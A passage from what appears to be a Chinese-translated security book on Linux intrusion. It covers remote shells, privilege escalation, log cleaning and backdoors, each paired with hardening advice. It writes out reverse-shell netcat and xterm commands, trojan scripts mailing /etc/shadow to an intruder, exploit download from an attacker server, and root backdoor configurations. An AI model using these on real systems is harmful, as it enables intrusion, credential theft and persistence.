| 107 | 6b | 153 | k |
| 108 | 6c | 154 | l |
| 109 | 6d | 155 | m |
| 110 | 6e | 156 | n |
| 111 | 6f | 157 | o |
| 112 | 70 | 160 | p |
| 113 | 71 | 161 | q |
| 114 | 72 | 162 | r |
| 115 | 73 | 163 | s |
| 116 | 74 | 164 | t |
| 117 | 75 | 165 | u |
| 118 | 76 | 166 | v |
| 119 | 77 | 167 | w |
| 120 | 78 | 170 | x |
| 121 | 79 | 171 | y |
| 122 | 7a | 172 | z |
| 123 | 7b | 173 | { |
| 124 | 7c | 174 | | |
| 125 | 7d | 175 | } |
| 126 | 7e | 176 | ~ |
| 127 | 7f | 177 | DEL |

## HTTP 状态码

HTTP 服务器对所有请求都会响应一个 HTTP 状态码。有些 HTTP 服务器不返回代码描述，而仅返回其数值。下表可用于确定 HTTP 响应代码的含义。在编写自定义 HTTP 客户端 Shell 脚本时，也可以使用此表来对结果 HTTP 响应进行分类和理解。

| 代码 | 描述 |
|---|---|
| 100 | 继续 (Continue) |
| 101 | 切换协议 (Switching protocols) |
| 200 | 成功 (OK) |
| 201 | 已创建 (Created) |
| 202 | 已接受 (Accepted) |
| 203 | 非权威信息 (Non-authoritative information) |
| 204 | 无内容 (No content) |
| 205 | 重置内容 (Reset content) |
| 206 | 部分内容 (Partial content) |
| 300 | 多重选择 (Multiple choices) |
| 301 | 永久移动 (Moved permanently) |
| 302 | 临时移动 (Moved temporarily) |
| 303 | 查看其他 (See other) |
| 304 | 未修改 (Not modified) |
| 305 | 使用代理 (Use proxy) |
| 307 | 临时重定向 (Temporary redirect) |
| 400 | 错误请求 (Bad request) |
| 401 | 未授权 (Unauthorized) |
| 402 | 需要付费 (Payment required) |
| 403 | 禁止访问 (Forbidden) |
| 404 | 未找到 (Not Found) |
| 405 | 方法不允许 (Method not allowed) |
| 406 | 不可接受 (Not acceptable) |
| 407 | 需要代理身份验证 (Proxy authentication required) |
| 408 | 请求超时 (Request timeout) |
| 409 | 冲突 (Conflict) |
| 410 | 已消失 (Gone) |
| 411 | 需要长度 (Length required) |
| 412 | 先决条件失败 (Precondition failed) |
| 413 | 请求实体过大 (Request entity too large) |
| 414 | 请求 URI 过长 (Request URI too large) |
| 415 | 不支持的媒体类型 (Unsupported media type) |
| 416 | 请求范围不满足 (Requested range not satisfiable) |
| 417 | 期望失败 (Expectation failed) |
| 500 | 内部服务器错误 (Internal server error) |
| 501 | 未实现 (Not implemented) |
| 502 | 不良网关 (Bad gateway) |
| 503 | 服务不可用 (Service unavailable) |
| 504 | 网关超时 (Gateway timeout) |
| 505 | HTTP 版本不支持 (HTTP version not supported) |

## 重要文件

确保以下文件已被分配适当的权限：

| 文件名 | 用户 | 组 | 权限 |
| :--- | :--- | :--- | :--- |
| /bin | root | root | drwxr-xr-x |
| /etc | root | root | drwxr-xr-x |
| /etc/aliases | root | root | -rw-r--r-- |
| /etc/default/login | root | root | -rw------- |
| /etc/exports | root | root | -rw-r--r-- |
| /etc/hosts | root | root | -rw-rw-r-- |
| /etc/hosts.allow | root | root | -rw------- |
| /etc/hosts.deny | root | root | -rw------- |
| /etc/hosts.equiv | root | root | -rw------- |
| /etc/hosts.lpd | root | root | -rw------- |
| /etc/inetd.conf | root | root | -rw------- |
| /etc/issue | root | root | -rw-r--r-- |
| /etc/login.access | root | root | -rw------- |
| /etc/login.conf | root | root | -rw------- |
| /etc/login.defs | root | root | -rw------- |
| /etc/motd | root | root | -rw-r--r-- |
| /etc/mtab | root | root | -rw-r--r-- |
| /etc/netgroup | root | root | -rw------- |
| /etc/passwd | root | root | -rw-r--r-- |
| /etc/rc.d | root | root | drwx------ |
| /etc/rc.local | root | root | -rw------- |
| /etc/rc.sysinit | root | root | -rw------- |
| /etc/security | root | root | -rw------- |
| /etc/services | root | root | -rw-r--r-- |
| /etc/shadow | root | root | -r-------- |
| /etc/ssh/ssh_host_key | root | root | -rw------- |
| /etc/ssh/sshd_config | root | root | -rw------- |
| /etc/ssh/ssh_host_dsa_key | root | root | -rw------- |
| /etc/ssh/ssh_host_key | root | root | -rw------- |
| /etc/ssh/ssh_host_rsa_key | root | root | -rw------- |
| /etc/ttys | root | root | -rw------- |
| /root | root | root | drwx------ |
| /sbin | root | root | drwxr-xr-x |
| /tmp | root | root | drwxrwxrwt |
| /usr/bin | root | root | drwxr-xr-x |
| /usr/etc | root | root | drwxr-xr-x |
| /usr/sbin | root | root | drwxr-xr-x |
| /var/log | root | root | drwxr-xr-x |
| /var/log/authlog* | root | root | -rw------- |
| /var/log/boot* | root | root | -rw------- |
| /var/log/cron* | root | root | -rw------- |
| /var/log/dmesg | root | root | -rw------- |
| /var/log/lastlog | root | root | -rw------- |
| /var/log/maillog* | root | root | -rw------- |
| /var/log/messages* | root | root | -rw------- |
| /var/log/secure* | root | root | -rw------- |
| /var/log/spooler* | root | root | -rw------- |
| /var/log/syslog* | root | root | -rw------- |
| /var/log/utmp* | root | utmp | -rw-rw-r-- |
| /var/log/wtmp* | root | utmp | -rw-rw-r-- |
| /var/log/xferlog | root | root | -rw------- |
| /var/run | root | root | drwxr-xr-x |
| /var/run/*.pid | root | root | -rw-r--r-- |
| /var/spool/cron | root | root | drwx------ |
| /var/spool/cron/crontabs/root | root | root | -r-------- |
| /var/spool/mail | root | mail | drwxrwxr-x |
| /var/spool/mail/* | user | user | -rw-rw---- |
| /var/tmp | root | root | drwxrwxrwt |

```
nc victim's_ip_address 9999
```

Netcat 也可以被指令连接到入侵者的端口以提供命令 shell。首先，攻击者必须在某个端口上监听：

```
nc -v -n -l -p 9999
```

现在，必须在受害主机上执行以下操作：

```
./nc -e /bin/sh attacker's_ipaddress 9999
```

> Netcat 默认不启用 `-e` 选项，该选项用于在建立连接后执行程序。如果你希望 Netcat 支持 `-e` 标志，必须在编译时加上 `-DGAPING_SECURITY_HOLE` 标志。请记得在将 Netcat 二进制文件上传到受害主机之前完成此操作。

## 使用 xterm 获取远程 Shell

如果受害主机安装了 X 终端客户端软件（如 xterm），攻击者可以执行它以接收远程 shell：

```
xterm -display attacker's_ip_address:0.0 &
```

该命令将导致 xterm 实例在受害主机上执行，并显示在攻击者的 X 服务器上。当然，攻击者必须首先运行以下命令，以允许 xterm 在其 X 服务器上显示：

```
xhost +victim's_ip_address
```

## 防止攻击者获取远程 Shell

以下是您可以采取的几个步骤，以增加入侵者获取远程 shell 的难度：

- 配置防火墙以阻断所有未使用的端口。此外，收紧防火墙规则以限制传出连接。例如，一个仅作为 Web 服务器的主机不应被允许在任何端口上发起出站连接。
- 从生产主机中卸载 telnet、ftp、wget 和 tftp 等客户端软件。
- 从生产主机中卸载 X 程序和库。


## 端口重定向

端口重定向技术可用于绕过薄弱的防火墙规则，从而连接到被防火墙过滤的端口上运行的服务。为了实现端口重定向，我们将使用 Zebedee，这是一个命令行工具，可在 `http://www.winton.org.uk/zebedee/` 获取。这里假设受害机器上已安装 Zebedee。如果没有，请使用前面“上传 Netcat”章节中描述的方法，将 Zebedee 二进制文件上传到受害主机。

### 本地端口重定向

假设入侵者需要连接到一台已被攻破的主机上的 MySQL 服务器。如果被攻破的主机上或其前方设有防火墙，且仅允许 80 端口的入站连接，入侵者可以在受害机器上执行以下操作：

```
[victim_host]$ zebedee -T 80 -s 127.0.0.1:3306
```

接下来，入侵者在其自己的机器上执行以下操作：

```
[intruder's_host]$ zebedee -T 80 victim's_ip_address 3306:127.0.0.1:3306
```

这将导致入侵者主机上的 Zebedee 进程连接到受害主机 80 端口上监听的 Zebedee 进程。现在，入侵者可以通过连接自己主机的 3306 端口 (127.0.0.1)，经由 Zebedee 隧道连接到受害主机的 3306 端口。

> 入侵者可以在受害主机上运行 `ifconfig` 和 `route -n` 命令，以识别可能允许连接到内部网络的其他网卡。攻击者可以不指定上述 Zebedee 命令中的 127.0.0.1，而是指定内部机器的 IP 地址。这将导致在受害主机 80 端口监听的 Zebedee 将流量重定向到指定的内部主机和端口。

### 远程端口重定向

考虑这样一种情况：受害主机上或其前方的防火墙不允许任何入站连接，且仅允许 80 端口的出站连接。我们可以使用 Zebedee 执行远程端口转发，这将使运行在入侵者主机上的 Zebedee 进程等待来自受害主机上客户端 Zebedee 进程的连接。

首先，入侵者必须在自己的主机上运行以下命令：

```
[intruder's_host]$ zebedee -l 3306:*:3306 -T 80
```

现在，入侵者必须在受害主机上运行以下命令：

```
[victim_host]$ zebedee -T 80 -c intruder's_ip_address -s 127.0.0.1
```

该命令将导致受害主机上的 Zebedee 服务器进程向入侵者主机 80 端口监听的 Zebedee 客户端进程发起出站连接。当入侵者连接到自己机器的 3306 端口 (127.0.0.1) 时，他或她将通过 Zebedee 隧道连接到受害机器的 3306 端口。

> 入侵者可以在受害主机上运行 `ifconfig` 和 `route -n` 命令，以识别可能允许连接到内部网络的其他网卡。入侵者可以在前述命令中使用内部 IP 地址代替 127.0.0.1，从而对受害内部网络中主机的监听端口执行远程端口转发。

### 强化防火墙规则

尽可能收紧你的防火墙规则。确保同时限制出站连接。例如，一个仅作为 Web 服务器的主机绝不允许在任何端口上发起出站连接。

## 破解 /etc/shadow

大多数 Unix 和 Linux 发行版默认使用影子密码（shadowed passwords），加密后的密码哈希存储在 /etc/shadow 文件中。该文件仅 root 用户可读。假设入侵者已经获得了主机的 root 访问权限，他或她可以使用密码破解工具来破解密码哈希。

### 使用 John 破解 /etc/shadow

John the Ripper 可用于破解 /etc/passwd：

```
[bash]# john /etc/shadow
Loaded 2 passwords (FreeBSD MD5 [32/32])
trycr4ck1ngme (root)
johnnypwd (john)
```

John the Ripper 可在 http://www.openwall.com/john/ 获取。

### 使用强密码

采取以下步骤强化密码要求策略并确保使用强密码：

- 强制用户使用强密码。可以使用 `npasswd`（可在 `http://www.utexas.edu/cu/unix/software/npasswd/` 获取）和 `pam_passwdqc`（可在 `http://www.openwall.com/passwdqc/` 获取）等工具来强制执行强密码策略。
- 强化允许的密码有效期和长度。根据你的发行版，编辑 `/etc/default/passwd` 或 `/etc/login.defs` 来实现。
- 考虑使用动态密码方案，如 S/KEY 和 SecurID。

## 本章小结

本章重点介绍了入侵者用于远程攻破漏洞主机的技术。讨论了诸如暴力破解、嗅探、中间人攻击、密码破解、端口重定向、针对配置错误、缓冲区溢出以及其他软件漏洞的利用等战术。一旦入侵者获得了对漏洞主机的远程访问权限，他或她将希望使用后续章节中描述的方法来维持访问并提升权限。

## 第 5 章：权限提升

### 本章内容：

- 利用本地信任
- 用户组权限和错误的文件权限
- PATH 中的 "."
- 软件漏洞
- 小结

许多漏洞允许入侵者获得远程主机的非特权访问权限。在获得普通用户权限后，入侵者接下来的逻辑步骤是获取 *root*（超级用户）权限。除了外部入侵者，本地恶意用户也可能尝试利用本地漏洞以获取超级用户权限。

将权限提升至超级用户权限的行为通常被称为 *权限提升*（privilege escalation）。本章描述了具有普通用户权限的个人可能尝试获取超级用户权限的各种方法。

## 利用本地信任

在大多数情况下，防火墙被配置为限制来自外部主机和网络的访问。但环回接口 (127.0.0.1) 上的流量通常不受限制。事实上，过滤环回接口上的流量可能会导致许多应用程序崩溃。本地用户可以利用这一条件，尝试扫描、枚举并利用那些无法远程访问的服务。因此，一旦攻击者获得了主机的本地用户访问权限，他或她可能会尝试本书前几章中描述的所有黑客技术，以实现权限提升。

## 用户组权限和错误的文件权限

错误的文件权限可能允许恶意用户读取或写入他们没有权限访问的文件。以下章节描述了恶意用户如何利用错误的文件权限来提升其权限。

### 查找组所有的文件

假设入侵者获得了本地账户 "joe" 的访问权限。他或她可以通过执行 `id` 命令来发现 "joe" 所属的所有组：

```
[bash]$ id
uid=500(joe) gid=500(joe) groups=500(joe),501(proj1)
```

在注意到 "joe" 属于 "proj1" 组后，入侵者可以执行以下命令，列出所有属于 "proj1" 组的文件：

```
[bash]$ find / -group proj1 -print 2> /dev/null
/var/proj1/main.c
/var/proj1/main.o
/var/proj1/README
/var/proj1/passw.txt
/var/log/proj1
```

现在，入侵者准确地知道了 "joe" 可以访问哪些 "proj1" 文件。其中一个文件 passw.txt 看起来非常有趣：

```
[bash]$ more /var/proj1/passw.txt
```

请注意，该程序使用系统密码 “r00t3rp455w” 验证 MySQL 数据库。

管理员经常重复使用密码。如果受害主机的 root 密码与前述笔记中的 MySQL 密码相同，那么入侵者可以通过执行 su 命令获得 root 权限：

```
[bash]$ su -
Password:r00t3rp455w
[bash]# id
uid=0(root) gid=0(root) groups=0(root), 1(bin), 2(daemon), 3(sys), 4(adm), 6(disk), 10(wheel)
```

### 查找全球可读和可写的文件

除了搜索组可读文件外，还可以搜索用户可能有权访问的全球可读（world-readable）文件。例如，以下是搜索 /etc 目录下所有全球可读文件的方法：

```
[bash]$ find /etc -type f -perm -4 -print 2> /dev/null
```

/etc 中的许多文件不应该是全球可读的。例如，/etc/shadow 文件包含用户的加密密码。任何能够访问此文件的人都可以使用 John the Ripper 等工具暴力破解用户密码。

入侵者可以通过执行以下命令尝试搜索全球可写（world-writable）文件：

```
[bash]$ find / -type f -perm -2 -print 2> /dev/null
/usr/sbin/in.telnetd
```


在这个示例中，入侵者的“joe”账户对 `in.telnetd` 具有写权限。受害主机上的 `inetd` 或 `xinetd` 服务在每次有传入的 telnet 连接时，都会调用 `in.telnetd` 文件。入侵者可以编辑 `in.telnetd` 文件并将其内容修改为：

```
#!/bin/bash
xterm -display intruder’s_ip_address:0.0 &
```

现在，入侵者可以在其主机上执行以下命令：

```
xhost +victim’s_ip_address
```

这赋予了受害机器在入侵者的 X 服务器上显示 X 程序的权限。现在入侵者需要做的就是 telnet 到受害主机，这将导致 `inetd` 或 `xinetd` 以 root 权限调用 `/usr/sbin/in.telnetd`，从而使来自受害主机的 root xterm 窗口呈现在入侵者面前！

## 确保正确的权限

定期审计文件以确保正确的文件权限。

## PATH 路径

当用户执行命令时，命令壳（shell）会在 `PATH` 环境变量包含的目录列表中搜索该命令的位置：

```
[bash]$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/bin:/home/joe/bin:/bin
```

假设 root 用户在其 `PATH` 中包含当前目录（“.”）：

```
.:/usr/local/sbin:/usr/local/bin:/usr/bin:/usr/sbin:/bin:/bin
```

现在，每当 root 用户执行诸如 `ls` 之类的命令时，shell 会先在当前目录中查找 “ls”，然后再搜索 `PATH` 变量中列出的其他目录。

## 利用 PATH 中的 “.” 植入特洛伊木马

一个能够访问本地账户（如 “joe”）的恶意用户或入侵者，可以创建一个名为 “ls” 的文件，并将其放在受害用户的家目录（`/home/joe`）中，内容如下：

```
#!/bin/bash
cat /etc/shadow | mail intruder@intruder_email.com
/bin/ls
```

如果 root 用户此时 `cd` 进入 joe 的目录并执行 `ls` 命令请求列出目录，那么 joe 目录中前述的 “ls” 脚本将以 root 权限执行。这将导致 `/etc/shadow` 文件被发送邮件给入侵者。由于 “ls” 脚本在最后调用了真正的 `/bin/ls` 程序，root 用户仍会看到请求的目录列表。

## 不要将 “.” 包含在 PATH 中

永远不要将当前目录（“.”）包含在你的 `PATH` 中。

## 软件漏洞

Setuserid 程序以文件所有者的权限执行。因此，无论谁执行，root 所有的 setuid 文件始终以 root 身份执行。攻击者经常集中寻找 setuid 程序的漏洞，因为这些漏洞通常会导致权限提升。

使用以下命令定位 setuserid 程序：

```
find / -perm -4000 -type f -print 2> /dev/null
```

主机上安装的软件漏洞可能会允许恶意用户获取权限。以下是本地用户可能尝试利用的不同类型软件漏洞的示例。

### 内核缺陷

操作系统内核中的漏洞同样容易被本地用户利用。以 Linux “ptrace” 漏洞为例，它利用了 2.2 和 2.4 内核中的竞态条件（race condition）缺陷。

#### Ptrace 漏洞利用

为了利用 ptrace 漏洞，入侵者只需要在受害机器上获取并运行漏洞利用代码：

```
[bash]$ wget http://intruder's_web_server/ptrace.c
--17:03:52-- http://intruder's_web_server/ptrace.c
  => 'ptrace.c'
Resolving intruder's_web_server... done.
Connecting to intruder's_web_server[10.0.0.1]:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified {text/html}

[ <=> ] 2,046 275.07K/s

17:03:52 (275.07 KB/s) - 'ptrace.c' saved [2046]
[bash]$ gcc -o ptrace ptrace.c
[bash]$ ./ptrace
[+] Attached to 11862
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4000ed4d
[+] Now wait for suid shell...
sh-2.05a# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),
3(sys),4(adm),6(disk),10(wheel)
```

更多信息请参阅 http://securityfocus.com/bid/3447。

#### 更新或修补内核

通常，内核开发者会迅速发布内核漏洞的补丁。请确保在恶意用户利用之前立即安装此类补丁。

### 本地缓冲区溢出

关于缓冲区溢出攻击的介绍，请参考第 4 章。

本地应用程序和服务同样容易受到缓冲区溢出攻击。例如，“HP-UX IPCS Core File Buffer Overflow Vulnerability” 是由对核心文件名的不恰当边界检查引起的。易受此漏洞影响的 `ipcs` 程序可被本地用户利用，从而在受害主机上获得 root 权限。有关此漏洞的更多详细信息可见 http://securityfocus.com/bid/7216。

不要忽略为本地应用程序和服务安装最新的补丁。更多信息请参阅第 9 章。

### 不恰当的输入验证

对接受输入参数的程序进行输入验证非常重要。Setuid 程序以 root 用户的权限执行，因此一个微小的输入验证缺陷可能允许本地用户以超级用户权限执行命令。

例如，考虑 `runlpr` 工具，由于输入验证条件不恰当，被发现存在权限提升漏洞。详情请参阅 http://securityfocus.com/bid/6077。

### 符号链接

符号链接（Symbolic links）是包含指向其他文件路径名的特殊文件。当程序尝试访问一个符号链接文件时，内核会透明地将进程重定向到该符号链接所指向的文件名。

虽然符号链接是一个有用的特性，但它们可以被用来利用那些没有检查所访问文件是否为符号链接的脆弱程序。例如，考虑 CDE Tooltalk 符号链接漏洞，该漏洞未能检查正在写入的日志文件是否为符号链接文件。攻击者可以创建一个指向 `/etc/shadow` 的符号链接文件，其名称和路径与 Tooltalk 创建的日志文件相同。这将导致 Tooltalk 将其日志写入 `/etc/shadow`，导致其内容损坏。如果攻击者能成功强制将特定内容写入敏感文件，他或她就可以利用此类漏洞获取提升的权限。有关 CDE Tooltalk 漏洞的更多详细信息，请参阅 http://securityfocus.com/bid/5083。

### 核心转储 (Core Dumps)

当 Unix 或 Linux 进程崩溃时，操作系统会创建一个 “core” 文件。该文件包含有关崩溃进程的信息。开发人员使用核心文件来调试软件。由于核心文件包含崩溃进程的细节，入侵者可能会故意利用已知漏洞使运行中的进程崩溃，以获取可能存储在核心文件中的敏感信息。

#### Solaris FTP 核心转储 Shadow 文件恢复漏洞

已知在旧版本的 Solaris 中分发的 FTP 服务器在被强制使用以下命令崩溃时，会将其核心文件中包含 `/etc/shadow` 的部分内容：

```
CWD ~
```

在使用此命令使 FTP 服务器进程崩溃后，入侵者可以获取转储的核心文件，从而获取 `/etc/shadow` 文件的部分内容。以下是一个尝试执行此操作的示例会话：

```
[bash]$ telnet 127.0.0.1 21
Trying 127.0.0.1. . .
Connected to 127.0.0.1.
Escape character is `^]'.
220 127.0.0.1 FTP server (SunOS 5.6) ready
user joe
331 Password required for joe.
pass wrongpassword
530 Login incorrect.
CWD ~
530 Please login with USER and PASS.
Connection closed by foreign host.
[bash]$ strings /core | grep root
root:$1$PykbWI8kZbcKBLz7CBPbsPHxUcHLnoq1:0:129141:0:99999:7:::
```

一旦入侵者获得了 root 用户的密码哈希，他或她可以使用 John the Ripper 等工具进行暴力破解。有关此 Solaris FTP 服务器漏洞的更多信息，请参阅 http://securityfocus.com/bid/2601。有关如何使用 John the Ripper 进行密码破解的更多详细信息，请参阅第 4 章。

#### 及时安装软件补丁

软件供应商经常发布针对已公布漏洞的补丁。请确保在漏洞被恶意用户利用之前安装此类补丁。

## 配置错误

通常，管理员将所有注意力都集中在加固远程服务上。对本地服务和应用程序的忽视可能会导致各种配置错误，从而允许本地用户获取更高的权限。例如，管理员可能会特意配置运行在主机上的数据库服务器，允许任何用户无需密码连接。虽然防火墙可能会阻止远程用户登录数据库服务器，但此类配置很容易允许本地用户提升权限。因此，强烈建议对本地服务和应用程序的配置进行常规的加固和审计。

## 总结

本章重点介绍了入侵者将权限提升至 root 用户所使用的技术。您了解了信任本地用户、不正确的文件权限、配置错误以及软件漏洞带来的危险。入侵者在获得 root 权限后，将完全控制受害主机。接下来，入侵者必须掩盖踪迹，并植入特洛伊木马和后门，以确保能够持续访问。这些主题将在下一章中讨论。

请记得参阅本书的第二部分，了解如何执行主机加固，这将有助于防御本章中介绍的许多权限提升攻击。


## 第 6 章：隐藏

### 本章内容：

- 清理日志
- 后门
- 特洛伊木马
- Rootkit
- 本章小结

在获得主机的 root 权限后，入侵者通常希望能够维持持续的访问权限。此外，入侵者可能希望清除其活动痕迹，以免被系统管理员察觉。本章将介绍入侵者常用的各种技术和工具，用于隐藏其存在并确保能够持续访问受害主机。

## 清理日志

以下是入侵者用于禁用和清理日志机制及文件的常用技术。

### Shell 历史记录

命令行 shell 通常会创建包含近期执行命令的日志文件。例如，bash shell 会在用户目录下创建 `.bash_history` 文件。可以使用 `tail` 命令查看用户执行的最后 20 条命令：

```
[bash]# tail -20 /root/.bash_history
cat /etc/shadow
rm -rf /var/log/*
ifconfig -a
netstat -nap
wget http://hacker's_ip/trojans.tgz
mkdir ...
mv trojans.tgz ...
cd ...
tar zxvf trojans.tgz
./configure
make
make install
ifconfig -a
ps U root
lastlog
ls -alR ~ | more
clear
route -n
cat /etc/shadow | mail hacker@hacker's_ip
rm -rf /var/log/maillog
```

这段 `/root/.bash_history` 的片段提供了一个很好的例子，展示了主机被攻破后经常发生的典型黑客活动。

### 禁用 Shell 历史记录

为了禁用命令历史记录日志，入侵者可能会将 shell 的历史记录文件设置为指向 /dev/null 的符号链接：

```
[bash]# rm -rf /root/.bash_history
[bash]# ln -s /dev/null /root/.bash_history
```

现在，任何尝试写入 `/root/.bash_history` 的进程实际上都在写入 `/dev/null`，这是一个不包含任何内容（空）的特殊文件。这将导致 bash shell 写入的所有历史数据都被丢弃。

### 启用系统审计与日志记录

Shell 历史记录文件的目的是帮助用户回忆近期执行的命令。从系统安全角度来看，它从未被设计用作某种日志记录机制。用户 shell 历史记录文件中包含的信息不应被信任，因为用户可以删除或编辑该文件以包含任何他们希望的信息。相反，管理员应将精力集中在启用和强化系统审计与日志记录策略上，详见本书第二部分。

### 清理 /var

`/var` 目录通常包含以下日志文件：

- **utmp 和 wtmp：包含登录到系统的用户信息
- messages 和 secure：由 syslog 守护进程使用，用于记录各种应用程序和守护进程提交的日志信息
- xferlog：由 FTP 守护进程使用，用于记录数据传输请求
- maillog：由 SMTP 服务器使用，用于记录邮件传输
- lastlog：包含近期登录的用户信息

入侵者可能会手动编辑上述文件以隐藏其存在。最常见的情况是，入侵者利用 zap3 等自动化工具来完成此任务。zap3 工具可以清理 utmp、wtmp、messages、secure 和 lastlog。该工具可在 http://www.packetstormsecurity.org/ 获取。

此外，入侵者可能会禁用 syslogd 等日志服务，并修改其配置文件 (`syslog.conf`)，将其日志输出到类似 `/dev/null` 的文件中。

## 后门

一旦入侵者获得了系统的访问权限，他或她通常希望维持其特权状态。本节涵盖了资深黑客可能使用的几种不同方法，以确保对受侵害主机的持续访问。

### 安装远程 Shell 服务

入侵者可能会在 `inetd.conf` 文件或 `xinetd.d` 目录中添加一项条目，使 inetd 或 xinetd 在特定端口上提供远程 shell。这可以通过配置 inetd 或 xinetd 执行 `/bin/bash` 或任何其他命令 shell 来实现。一旦完成，攻击者可以通过 telnet 连接到该远程端口以获取远程 shell。

例如，攻击者可能会将以下内容放入 `/etc/xinetd.d/domain` 文件中：

```
service domain
{
    socket_type    = stream
    wait           = no
    user           = root
    server         = /bin/bash
    server_args    = -i
}
```

为了使这段代码生效，必须重启 xinetd。现在，当攻击者 telnet 连接到受害主机的 53 端口（domain）时，他或她将获得一个 root shell：

```
[bash]$ telnet victim's_ip_address 53
Trying 10.0.0.1...
Connected to 10.0.0.1.
Escape character is '^]'.
stty: standard input: Invalid argument
readline: warning: rl_pre_terminal: cannot get terminal settings
[root@eminem /]# id
uid=0(root) gid=0(root)
```

或者，入侵者可以在 root 的 crontab 文件中添加一项条目，并使用 Netcat (`nc`) 定期启动到外部主机的出站连接并提供 shell。当然，目标主机必须配置为使用 Netcat 的 `-l` 选项监听入站连接。

### 防止远程 Shell 服务安装

以下操作有助于防止和检测远程 Shell 服务的安装：

- 尽可能收紧防火墙规则。同时确保限制出站连接。例如，一个唯一用途是作为 Web 服务器的主机，绝不允许在任何端口上启动出站连接。
- 如果没有相关服务在使用，请禁用并卸载 inetd 或 xinetd。
- 使用 `netstat` 检查主机正在监听哪些端口及其关联的进程：`netstat -nap`

### 由 root 拥有的 Setuid 和 Setgid Shell

Setuid 和 setgid 程序以文件所有者或组的权限运行。获得 root 权限的入侵者可以将 `/bin/bash` 的副本放置在不同位置，并使用 `chmod` 命令配合 `+s` 参数为其设置 setuid 标志。完成此操作后，入侵者可以使用非 root 账户再次登录，只需运行该 setuid 的 bash 可执行文件即可获得 root shell。

> 定期审计文件系统中的 setuid 和 setgid 可执行文件是一个好习惯。要查找 setuid 文件，请运行：
> `find / -perm -4000 -type f -print 2> /dev/null`
>
> 要查找 setgid 文件，请运行：
> `find / -perm -2000 -type f -print 2> /dev/null`

### 将本地账户的 uid 更改为 0

root 账户的 uid (用户 ID) 等于 0。如果另一个账户的 uid 被设置为 0，该账户将获得 root 权限。

#### 给本地用户分配 uid 0

考虑 `/etc/passwd` 中关于用户 joe 的以下条目：
`joe:x:500:500::/home/joe:/bin/bash`

获得 root 权限的攻击者可以将 `/etc/passwd` 中的上述条目更改为：

```
joe:x:0:0::/home/joe:/bin/bash
```

这将为用户 “joe” 提供超级用户权限。入侵者现在唯一需要做的就是确保能够持续访问 “joe” 账户。

#### 审计 /etc/passwd

定期审计 `/etc/passwd`，确保只有 root 的 uid 和 gid 被设置为 0。

### .rhosts

用户经常在主目录中放置 `.rhosts` 文件，以便于从远程主机进行免密登录。入侵者可以滥用此机制，在无需密码的情况下维持对受害主机的持续访问。

#### 滥用 .rhosts 以确保持续的 root 访问

入侵者可能会在 `/` 或 `/root` 目录下放置如下 `.rhosts` 文件：

```
intruder's_ip_address +
```

这将使入侵者能够以 root 身份从其主机无需密码地 rlogin 登录。

#### 审计 .rhosts 并考虑使用 SSH

如果您正在运行 r-服务，强烈建议采取以下建议：

- 考虑使用 SSH 替代 rlogin 和其他 r-服务。
- 如果必须启用 rlogin 和其他 r-服务，请使用 find 命令定期审计是否存在恶意的 `.rhosts` 文件：
  `find / -name .rhosts -print`

> 攻击者还可能在 `/etc/hosts.equiv` 中添加一项条目，该文件提供与 `.rhosts` 相同的功能。建议定期检查此文件。如果不使用，请删除 `/etc/hosts.equiv`。


## SSH 的 authorized_keys

如果受害主机运行着 SSH 服务器，入侵者可以通过将自己的公钥放入 root 的 .ssh 目录中来维持访问权限。只要入侵者拥有相应的私钥，SSH 就会信任该公钥并允许入侵者登录。

### 利用 SSH 的 Authorized_Keys 机制确保持续的 root 访问

入侵者可以在其主机上使用 `ssh-keygen` 程序创建所需的公钥和私钥对：

```bash
[bash]$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/intruder/.ssh/id_rsa): 
Created directory `/home/intruder/.ssh'.
Enter passphrase (empty for no passphrase): [enter]
Enter same passphrase again: [enter]
Your identification has been saved in /home/intruder/.ssh/id_rsa.
Your public key has been saved in /home/intruder/.ssh/id_rsa.pub.
The key fingerprint is:
38:3c:7b:db:05:00:10:625:87:bc:85:b8:05:9a:a9 intruder@intrudershost
```

现在，入侵者必须将 `.ssh/id_rsa.pub` 的内容复制到受害主机上的 `.ssh/authorized_keys` 中。完成后，入侵者无需密码即可通过 SSH 登录到受害主机：

```bash
[bash]$ ssh root@victim's_ip_address
Last login: Sun Mar 30 02:23:48 2003 from intruder's_host
[bash]#
```

### 禁止 root 通过 SSH 登录

不要允许 root 通过 SSH 登录。为了强制执行此规则，请编辑 `sshd_config` 并确保存在以下行：

```
PermitRootLogin no
```

## Loki2

Loki2 是一款免费工具，经常被入侵者用于安装后门。它使用 `ICMP_ECHO` 和 `ICMP_REPLY` 数据包来隧道传输 shell 命令。这使得它极其难以检测，因为其数据包看起来就像是由 `ping` 工具产生的 ICMP 流量。

关于 Loki2 的更多信息可以通过 http://www.phrack.com/show.php?p=51&a=6 获取。

### 收紧防火墙规则

配置您的防火墙以丢弃传入的 ICMP 回显请求（echo requests）和传出的 ICMP 回显响应（echo replies）。此外，除非必要，否则拦截所有传入和传出的 UDP 流量。

## 特洛伊木马（TROJANS）

黑客经常在受害主机上放置各种命令的修改二进制文件。这些修改后的二进制文件运行起来看似正常，但实际上在为入侵者秘密执行恶意命令。

### 将常用命令木马化

入侵者可能会将 `/bin/ls` 二进制文件替换为以下脚本：

```bash
#!/bin/bash
cat /etc/shadow | mail intruder@intruders_email
/bin/ls.old
```

该脚本将 `/etc/shadow` 文件通过电子邮件发送给入侵者。当然，只有在 root 用户执行该脚本时才会成功。注意，该脚本调用了原始的 `ls` 二进制文件（保存为 `/bin/ls.old`）。这使得受害用户很难检测到它。此类修改后的二进制文件被称为特洛伊木马。

以下是入侵者最常将其木马化的二进制文件：

arp, cat, chfn, chsh, crontab, du, ifconfig, finger, find, killall, more, locate, login, ls, lsof, passwd, pidof, ps, route, netstat, tail, tcpd, tcpdump, top, w, who, syslogd.

有关其中许多命令的描述，请参阅本书参考中心的“常用命令”部分。

### 检测特洛伊木马

请参阅“检测 Rootkits”。

## Rootkits

入侵者不需要费太多周折来收集和安装特洛伊木马和后门。他们只需在网上搜索 rootkits 即可。Rootkits 是为了方便黑客而由现成的特洛伊木马组成的软件包。它们还包含其他工具，使入侵者能够自动清理日志文件、安装后门以及使用网络嗅探器等工具。以下黑客手段描述了几种在网上免费提供的流行 rootkits。

### Adore

